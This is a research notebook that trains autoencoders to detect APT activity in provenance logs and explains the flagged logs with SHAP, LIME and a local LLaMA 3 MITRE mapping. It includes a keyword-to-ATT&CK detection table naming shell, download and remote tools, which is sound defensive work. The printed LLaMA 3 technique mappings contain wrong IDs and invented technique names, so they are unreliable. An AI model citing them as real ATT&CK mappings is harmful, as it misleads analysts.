        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for MODERNBERT_LARGE on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1304 | PR-AUC: 0.0523
    -> Sparse Done! F1: 0.1875 | PR-AUC: 0.1185
    -> Deep SVDD Done! F1: 0.1714 | PR-AUC: 0.0671
    -> DAE Done! F1: 0.2 | PR-AUC: 0.168
    -> VAE Done! F1: 0.2105 | PR-AUC: 0.0701
    -> Beta-VAE Done! F1: 0.2 | PR-AUC: 0.0807
    -> GMVAE Done! F1: 0.1875 | PR-AUC: 0.0771
    -> Attention AE Done! F1: 0.2727 | PR-AUC: 0.202
    -> LSTMAE Done! F1: 0.2222 | PR-AUC: 0.1858
    -> Robust Done! F1: 0.1277 | PR-AUC: 0.0643
    -> Contractive Done! F1: 0.2308 | PR-AUC: 0.1224

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0706 | PR-AUC: 0.0219
    -> Sparse Done! F1: 0.1013 | PR-AUC: 0.0266
    -> Deep SVDD Done! F1: 0.0917 | PR-AUC: 0.0317
    -> DAE Done! F1: 0.087 | PR-AUC: 0.0227
    -> VAE Done! F1: 0.0762 | PR-AUC: 0.0189
    -> Beta-VAE Done! F1: 0.1042 | PR-AUC: 0.0

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.6867 | PR-AUC: 0.7193
    -> Sparse Done! F1: 0.0106 | PR-AUC: 0.0031
    -> Deep SVDD Done! F1: 0.5563 | PR-AUC: 0.2859
    -> DAE Done! F1: 0.1798 | PR-AUC: 0.062
    -> VAE Done! F1: 0.0102 | PR-AUC: 0.0029
    -> Beta-VAE Done! F1: 0.0105 | PR-AUC: 0.0031
    -> GMVAE Done! F1: 0.0246 | PR-AUC: 0.0076
    -> Attention AE Done! F1: 0.0104 | PR-AUC: 0.0031
    -> LSTMAE Done! F1: 0.6429 | PR-AUC: 0.5566
    -> Robust Done! F1: 0.6552 | PR-AUC: 0.6232
    -> Contractive Done! F1: 0.0107 | PR-AUC: 0.0031

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.739 | PR-AUC: 0.6669
    -> Sparse Done! F1: 0.0168 | PR-AUC: 0.0025
    -> Deep SVDD Done! F1: 0.1273 | PR-AUC: 0.047
    -> DAE Done! F1: 0.0481 | PR-AUC: 0.0185
    -> VAE Done! F1: 0.0049 | PR-AUC: 0.0017
    -> Beta-VAE Done! F1: 0.

#### XAI Integration and MITRE ATT&CK mapping

In [3]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [MODERNBERT UPDATE] 
EMBEDDER_NAME = "answerdotai/ModernBERT-large" 
INPUT_DIM = 1024  # Critical: ModernBERT-large uses 1024 dimensions

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()}...")
        
        # trust_remote_code=True left on as a safety net for newer architectures
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        self.embedder = AutoModel.from_pretrained(embedder_name, trust_remote_code=True).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        # Clean inputs to ensure explainers don't pass empty strings
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 4 
        all_errors = []
        
        # Set autocast device dynamically based on CPU vs CUDA
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding="max_length", 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            # Safety net: zero out token_type_ids if the tokenizer generates them
            if "token_type_ids" in inputs:
                inputs["token_type_ids"] = torch.zeros_like(inputs["input_ids"]).to(self.device)

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [MODERNBERT UPDATE]: Reverting to standard CLS pooling
                    embeddings = outputs.last_hidden_state[:, 0, :] 
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
# Ensure this folder name matches what you used for training ModernBERT!
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_modernbert_large", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    ae_model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    print(f"✓ Loaded weights: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if weight > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: +{weight:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: x[1], reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if score > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: +{score:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights: saved_weights_modernbert_large\theia_ProcessAll_Baseline.pth
Loading answerdotai/ModernBERT-large on CUDA...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:129: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\hub\models--answerdotai--ModernBERT-large. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)
Loading weights: 100%|██████████| 170/170 [00:00<00:00, 996


Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'and' (LIME Weight: +0.0133)
    [!] LLaMA-3 MITRE MAPPING: T1047 - Linux SUID Loader
 -> 'admin' (LIME Weight: +0.0076)
    [!] LLaMA-3 MITRE MAPPING: T1141 - Sustain Phase
 -> 'home' (LIME Weight: +0.0063)
    [!] LLaMA-3 MITRE MAPPING: T1007 - Domain Data Stealing
 -> 'mprotect' (LIME Weight: +0.0060)
    [!] LLaMA-3 MITRE MAPPING: T1007 - Discovery of Custom-Coded Exfiltration Channel

Calculating SHAP values (Optimized speed...)

SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> '88' (Anomaly Impact: +0.0272)
    [!] LLaMA-3 MITRE MAPPING: T1178 - Credentials in Use
 -> 'and' 

### 6. `all-mpnet-base-v2`

#### Training and saving `.pth` files

In [4]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for all-mpnet-base-v2
BASE_DIR = "final_train_test_split_mpnet"
RESULTS_FILE = "results_all_autoencoders_mpnet.csv"
MODEL_SAVE_DIR = "saved_weights_mpnet"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] all-mpnet-base-v2 uses 768 dimensions
INPUT_DIM = 768     

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9431 | nDCG: 0.3486 (DCG: 1.483, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.7173 | nDCG: 0.3499 (DCG: 1.4887, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9586 | nDCG: 0.4155 (DCG: 1.7678, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.9418 | nDCG: 0.3525 (DCG: 1.4998, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.6888 | nDCG: 0.3525 (DCG: 1.4998, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.7167 | nDCG: 0.347 (DCG: 1.4763, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.7117 | nDCG: 0.349 (DCG: 1.4848, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9439 | nDCG: 0.3295 (DCG: 1.4017, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9386 | nDCG: 0.3295 (DCG: 1.4018, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9289 | nDCG: 0.3329 (DCG:

